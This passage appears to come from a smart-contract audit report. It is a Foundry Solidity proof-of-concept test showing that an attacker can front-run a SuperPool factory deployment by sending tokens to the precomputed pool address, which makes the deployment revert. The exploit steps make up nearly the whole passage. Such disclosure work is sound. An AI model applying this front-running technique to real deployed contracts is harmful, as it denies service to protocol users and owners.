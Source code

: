 -----

#### Coded PoC

The following proof of concept (PoC) demonstrates the attack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "../BaseTest.t.sol";
import {console2} from "forge-std/console2.sol";
import {FixedPriceOracle} from "src/oracle/FixedPriceOracle.sol";

contract SuperPoolUnitTests is BaseTest {
    uint256 initialDepositAmt = 1e5;

    Pool pool;
    Registry registry;
    SuperPool superPool;
    RiskEngine riskEngine;
    SuperPoolFactory superPoolFactory;

    address public feeTo = makeAddr("FeeTo");

    function setUp() public override {
        super.setUp();

        pool = protocol.pool();
        registry = protocol.registry();
        riskEngine = protocol.riskEngine();
        superPoolFactory = protocol.superPoolFactory();

        FixedPriceOracle asset1Oracle = new FixedPriceOracle(1e18);
        vm.prank(protocolOwner);
        riskEngine.setOracle(address(asset1), address(asset1Oracle));
    }

    function testDeployAPoolFromFactory_WITH_BUG() public {
        address feeRecipient = makeAddr("FeeRecipient");

        vm.prank(protocolOwner);
        asset1.mint(address(this), initialDepositAmt);
        asset1.approve(address(superPoolFactory), initialDepositAmt);

        // Attacker front-runs by sending assets to the pre-calculated address
        address preDeployedSuperPoolAddress = 0x48B7bEE37E99c87E81DC7896011b83c438Ef0f31;
        asset1.mint(preDeployedSuperPoolAddress, 1e18);

        // Deployment now reverts because the initial deposit mints too few shares
        vm.expectRevert();
        address deployed = superPoolFactory.deploySuperPool(
            poolOwner,
            address(asset1),
            feeRecipient,
            1e17,
            type(uint256).max,
            initialDepositAmt,
            "test",
            "test"
        );
        console2.log("deployed", deployed);
    }
}
```